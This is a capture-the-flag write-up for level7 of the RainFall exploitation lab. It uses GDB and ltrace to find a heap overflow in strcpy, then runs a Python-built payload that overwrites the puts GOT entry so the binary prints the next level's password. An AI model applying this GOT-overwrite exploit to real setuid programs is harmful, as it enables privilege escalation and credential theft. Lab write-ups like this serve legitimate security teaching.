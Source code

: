 ```sh
level7@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42 42
~~
level7@RainFall:~$ ./level7 42 42 42
~~
```
There is one excutable file **level7**, if we give less then 2 arguments, its segmentation falut, start of 2 arguments, it prints just "~~". \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x080484f4  m
0x08048521  main
...
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave  
   0x08048520 <+44>:    ret    
End of assembler dump.
(gdb) disas main
...
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    0xc(%ebp),%eax
   0x080485a8 <+135>:   add    $0x8,%eax
   0x080485ab <+138>:   mov    (%eax),%eax
   0x080485ad <+140>:   mov    %eax,%edx
   0x080485af <+142>:   mov    0x18(%esp),%eax
   0x080485b3 <+146>:   mov    0x4(%eax),%eax
   0x080485b6 <+149>:   mov    %edx,0x4(%esp)
   0x080485ba <+153>:   mov    %eax,(%esp)
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    $0x80486e9,%edx
   0x080485c7 <+166>:   mov    $0x80486eb,%eax
...
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    %eax,0x8(%esp)
   0x080485dc <+187>:   movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:   movl   $0x8049960,(%esp)
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
...
```
We can see fopen gets two parameters, in the line main+161, main+166.
```sh
(gdb) x/s 0x80486eb
0x80486eb:       "/home/user/level8/.pass"
(gdb) x/s 0x80486e9
0x80486e9:       "r"
```
and in the main+202, fgets also takes 3 arguments, we can see return value of fopen, 0x44(68) and 0x8049960.
```sh
(gdb) x/s 0x8049960
0x8049960 <c>:   ""
```
c is one of global variable, So it seems be like this.
```c
fgets(c, 68, fopen("/home/user/level8.pass", "r"));
```
And we can see also something in ```m()``` function line 13-38,
```sh
(gdb) x/s 0x80486e0
0x80486e0:       "%s - %d\n"
(gdb) x/s 0x8049960
0x8049960 <c>:   ""
```
So printf should be like
```c
printf("%s - %d\n", c, time(0));
```
The global variable ```c``` takes .pass of level8 with fgets, and the ```m()``` function prints the value of c. but in the main, there is nowhere calling the function ```m()```. \
Let's try buffer overflow strcpy.
```sh
(gdb) r aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7 BBBB
Starting program: /home/user/level7/level7 aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7 BBBB

Program received signal SIGSEGV, Segmentation fault.
0xb7eb1922 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
there is no overflow until EIP register, but we can see
```sh
(gdb) i r
eax            0x42424242       1111638594
ecx            0xbffff905       -1073743611
edx            0x37616136       929128758
ebx            0xb7fd0ff4       -1208152076
...
Enter the hex value to find (e.g., 0x63613563): 0x37616136
Little Endian ASCII representation: '6aa7'
'6aa7' found at offset: 20
...
level7@RainFall:~$ ltrace ./level7 aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7 BBBB
__libc_start_main(0x8048521, 3, 0xbffff7a4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                      = 0x0804a008
malloc(8)                                                      = 0x0804a018
malloc(8)                                                      = 0x0804a028
malloc(8)                                                      = 0x0804a038
strcpy(0x0804a018, "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab"...)      = 0x0804a018
strcpy(0x37616136, "BBBB" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
```
EDX registers are corrupted in the offset 20. and the value of EAX is second argument, we can think the first ```strcpy()``` is done, but second ```strcpy()``` try the address of ```0x37616136``` with argument ```BBBB```. \
So we can find point of overwrite, after saving data to global variable ```c``` with ```fopen()```, its ```puts()```.
```sh
(gdb) disas main
...
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
...
(gdb) x/i 0x8048400
   0x8048400 <puts@plt>:        jmp    *0x8049928
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
```
So, for the first argument, we put 20 bytes of something + ```puts()``` GOT address and address of ```m()``` function in second argument.
```sh
level7@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa" + "\x28\x99\x04\x08"' > /tmp/exploit7
level7@RainFall:~$ python -c 'print "\xf4\x84\x04\x08"' > /tmp/exploit77
level7@RainFall:~$ ./level7 $(cat /tmp/exploit7) $(cat /tmp/exploit77)
(hidden)
 - 1733521467
```
 level7 passed !